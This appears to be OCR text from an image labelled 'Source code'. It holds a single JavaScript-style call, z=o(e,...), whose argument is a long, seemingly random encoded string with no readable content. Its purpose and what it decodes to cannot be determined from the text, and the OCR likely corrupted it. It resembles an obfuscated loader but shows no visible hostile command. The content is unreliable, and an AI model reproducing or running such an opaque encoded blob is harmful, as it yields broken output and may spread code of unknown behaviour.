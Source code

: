 z=o(e,"ufsNSkwp4?z3oR^1R0soosk4^^4?fz3aSwS4^fw1.Rz?ozwz1w4ossKo3Nko^^kNfkz4SfRzNf?kszoLkw^o4sw4sN4SRzpRaw?oNssp34NkR?w?szoNNs^wky1f3Nfsww-k?ss43^3pk?1s4ksf3wSfRow??zN4owko1sRRwp1p3?ks^SpffSN4RkwS1z?V?sskokkoR1p4fpSa^1wovs?4p3NNo?k^R?4ffkzpNf^4poA?zSNNRkSQ1p44f^3kkS3R4wfo3eRSpSAc?wsofw3Rww14kosk3zkK^fpw?^N3ozwq1w1s?Ssp33Nwofkszp1o1zkkpRzpvNzR?k^o?Of4z^SSsRR1p3j^?ksR3fkk14?N1433S^Roh^owNzRQwwS413?3Ns3k6zoSp3oo4NNoR3sSRoz?^wzokp^?4ssw3?t.?^k?t3zwNp4SNR1??zNkp3^44sfSzzS:s?Rkpo1Rs^oRkz1Y4ww1fk3zSNR?p4^pz3Nkws1o4^sS3z3pSp^?ppz?N^RSwzT/?wsoao?4^14Sfz39SwRopsSfR^NSo3wr1w4opz34kz^SpzfE^?z3SSRwwN;wposf3zkk1p43z^S4RzpljwfNzSs?o^1S?fs73wSosNRop3oS4?N^zW1o?ps43^kSNl1sppf?zpR?zS43fsj1S11?ozopf^3zSz^DpwS1ffzSNRRwsR?fsw3oks^4p^fS?zp1Rwpz8s?4s^f^zNk^^z4fsz4zSNRow3fw?1N3RS1?4^sS3zkh^wpofsz4N1S4m1zkkk3fsfNksR4kfz3gSwRops^4q?pSozwk1w4ossJR?sSR^pSszwS#Rsw41^Rz??s^oz^o43f4z^SSs^Rkp^fFp^s?oTk?1wsXosSo^sp4kYfNzoNSo3w^Rk?pszoNko3NfpzoSsR4w^jS?zwp)wko1z44f^3S?^Sk^^4#1kzfS4o?1zzwsw3oksszR1ppfkzpS4R3pp{w?sf4ookf1S41ssz?kmR?p4GNz1ooww144^sSsR3fS1^^fNz4N^RSwzql?wwYdsk41s4Sfz3K?zSf^zpo?1NSozw61w4o4ssR4^^S4zfKzwNofSo?wf11?fNsokwf1hpo1f3NSwR1p4o1NsRpk^1S4zwssk3^SwRR4%1pzNSzo3So13zXsNoq^zzpfwzoSssoRwwRcRk5sookk^^RN^s3z3kN?wpofSzpSso?kR<S43sxpsk1^p44fsw0sNR3pfVw4fs?3RfcRoS13N^^1ssp^?so1_zNzf1?4^sS3zk)^wko4f^4N1RSwz!6?wsoos?4s^4Sf^3ISwRooHw?-3??ozwS1w4ossmR?sSR^pfCzoNoRsw4S^1k?oskoSwB4sf1z^SSRzoNw11^?^Nfook34zs43wSo^sofpofpz^NfRSk11ps4oskS^z4.k3fz3pSkw^Zo?zN9owzowf134ps43NS1^SvRzsN4o^wS1z?}Nw1oks^^p^fSzzzfNzR?pkJp?ooSkR1x4wfos0zRkkpSffz(NwoozkwpbF4?ifokS1po1pz4N^RSwzS*?wsoosk?^^4SfzoskSRops04zwNSozwW>441ss34S^^4pzf(zwws^Sw41^?SNaoQkp^oz^f43spsRzp!twzsNso?k^1434sl3wSo^?p4r1zSNz1fww1o?ss?3^kS^z?sSozoSsR4zsAS?zN7^wws1s44f^3SSzf?pwf^z3N4o1wSG??*sw3oks1fp^fSzzSsRww^7szzSpoSk31%3zfo3sS41^pz#zzfNwoRwsNf4^NwRNkT^4pos?z4N^RSwzt3?wsRoskz^^4wfzospoRopST4RsNSozw*fw?sss3zS^^wpzS?zwS^^Rw4cf?SNroJkw^o4ssSz^SwRzps=w?^NsRzps1S4RsU^zSo^sp4s^3JNzRNww11?swf3^wwVp4xfzzowNR4w^gS?zSoowk11s4zf^3wSz1szobozwN4%swS1z?CSwosks^op^f4zzp?Rwp^f??4NNoSp31,4wfo3sw_R^p4MzzsNwo^wsGz?fsS31k&fzpofsz4k^RkwzDk?wNfos?f^^?wNk3 SoRop3.4?^NSozw31w?fss3zS^^wpzssRoNoR4w4Ns?SszoJpwfS4sf^z^SzRzz?%wz^N?o4wk1S?OsL3wSo^s?dv^zzNzRsww1^?sk4ofkS^z4BSwzoS?R44hf4?zNpowwo1s44f^RSk3^apR#oz?N4>4wSYzzosw3oksfzp^f3zzks(owo0??4wNoSkz1+zww43sS1R^p3gz33Nw^opS14?ksSofkWf?poss3SN^RSwzf3?wNNosw41:4Sf33_p4Rops*436N?ozwp1wzkss34S^{S4wf:zRNoR?w4_4?SNoR3kw1S4sN1z^SSRz4sNN?oN3o44k1S4zs}o4?N^s4sY^o3NzRAww1oz1s4okkS1S4yf4zoks^kw^Ek?zkzowwN1s?zNN3Skf^i41rozsN4^^pw1z?pswoNks1sp^swz1S-R^wof^?4s^oSwo1k4wsk3swSR^pSyz3swOoowo14zzsS3zkn^w4pfsz1N^R^wzGs?wNoRRk4^14SNo3BSRRozsfo?^Nkoz431wz4ssozws^S4ff5okNoRsw4f^?3szopkw1N4skfz^kw^Fpr*^?ok1o4k^1S?oSR3wkk^s?SU^zSNz^s?N1o?os4R3kS^z40s41NSs^Nw^sm?zNTowko1S44sk3Skk^vp4}o3sS1o^wk1zowswoNks1z4ofS3fS,1kwo:s?4S^o?kz1p4wsN3s4fR^4wffzUN^oop^144^sSoowi^w4kfsRfN^RSwzfsoNsoook4)z4Sfz3&k4sNpsfN?^Skozwr1w4oN{34kk^S4kfCz4No^sp11^?kszo^kw1N4ssz3^SS^fp(Np?oNso4p^1R4zsp3wkN^s3fC^3wSwRXw^1oz^s43^kS1o4pfw3kSs_1w^!S?zNLR^ko1?44sp3SSo^-4wSSzsNzo^p41z?pswookN^449fSRoS&RpwoNsz3s^opkzs84wfR3sk4^kpSdRzvw4oowN14zMNw3zkp^w?kfsz4N^1Sw3iD?Rsoo?k4144Sso3pSw^SpsNw?^NSozpssN4os334po^Spzfn34wwRsps1^osszoTkw^o4Rf43kSS^Sp_ 4?oSsRSk^1p4zSz3wkN^sz4fzzSNRRX431ozos4R{w3^z4pfwokSsR4w^sSzXNToRko1?44s43Sko1RpwfSzskSo^wS1zzskN3ok3^4?zfSzzSG^4?wFszss^^Vkz1j4wfoooS4^kpSfSz:N4oops0S4^sp3zps^w4NfsR4k3RSwRm8ofsoR^k42D4^fz3pSw13ps_4?^kS^/w51R4os?344p^S4ofwzwSSRs4S1^?SszRs4N^o43f4RpSSRzpTf4RkNsRsk^f%4zsY3wk^1Sp4f?zSwfRmww1o?sN?3^k3^z43fwz^Ss^4w1ZS?RN<RSko1?44NA3?Sz^ppwSfzsN4o^4Snw?6sR3ok?^4?^fSozkSRwpNGs?1s^Rxkz)}?Rfo3kS41^pSffz-wwfwws134^So3zkR^w4^swz4SkRS4NW7?wso^skR^^43fz3pSw^wpsfzzpNSRswtsS4oss34wa1zpzf?zwwzRsw41^zwSwo/wy^o3gf4z^SSRz4?8wzNNsRsk^1w4zNaoRSo^kp4f7zSSfRc?w{R?ss33^p4^zzpfwRoS3R4ps8SozNE1^ko s?kf^34SzfspwgRzsSzR%wS;f?TN13oks^4?^f3zzSpRwpNHszss^Rwpp1<4^fo^BS4R^pSfo34NwRkwssw4^sS3zwsfxpofoz4woRSwzC2?wN4osk1^^4^fz3sSw^opS:4zsNS1Sw21R4oksoNS^^4pzNkzwkwRspz8L?SNfo0w1^o4sf4o^kkRzppQwzNNsRsk^Tw?qsy3^So1^p4:^zSSo1Rww2k?sSS3^kS^z?sS}zoSoR44zbS?zN<owwp1s41f^3^Sz^spwfo3sN4RswSfo?ZsR3o4s=kp^f4zzw3Rw44nszzSfoSwf1Pzkfo3sS41^pkmzzpNwRNwsNf4^NwRfk7^^pos^z4N^RSposR?wNkospS^^4SfzospNRopo%43wNSozw-l4RNssoNS^n_pzf_zwNoRSw4vk?SNkoWk4^o?sf1z^S4RzzwbwzNNsRzwo1S?fs<RkSo^sp4s^3pNzRpww+N?swf3^ww134(f^zok^R4w^JSzoN?owwk1s43f^3SSz1sz1gozoN4^zwS1z?=N4oNks1Np^SNzzStRwwotw?4NkoSwk1D44foosS?R^p4dzz^NwRNws!z?wsSofk{f3pofsz4k^R4wz/p?wNNosp4^^zSs?3<SRRop?U4zzNSRzpp1w?;ssR4S^^3pzSQ1TNoRww4sw?SS6o=w4%44sf1z^kRRzpAlw3oS^o4wk1S?fs<oDSo1Sp3c^zoNz1^ww1o?sNzRkkS1N4eSSzoSsR44_%1?zNzow4z1s44f^3SwN^MpRlozoN4R7wS5zzpswo(ks^zp^f3zzpd^pwodw?4ksoSwo1g3ws33sSRR^zSmzowNwRopk14?NsS^ok9^pposSzoN^R3wzf??wsoosp4ep4Ssf3ISRRopoV43/Ssozw41wzzss34S^1w?kfhz1No^^w41^?SNoVpkw1w4sNSz^SSRzpif??oN?o4w41S4os:owkk^spR>^o^NzRpww/^?ws4okkSQN4Ifwzows1Nw^Y3?zNpowww1s?zsf3Sks^d?sDozsN4^D4f1z??swR4ks^4p^swRSSb^Hwof^?4s^oSkz1p4wsN3sksR^pw}z3.Spoowp143.sSofkMfw4^fszRN^11wzfo?wN^o^k41k4SN?3bSwRo?sf4?^N3ozwp1wokssozS1^S4sfY3fNoRsw4f#ofszo?kw744sf4z^kwCpp*f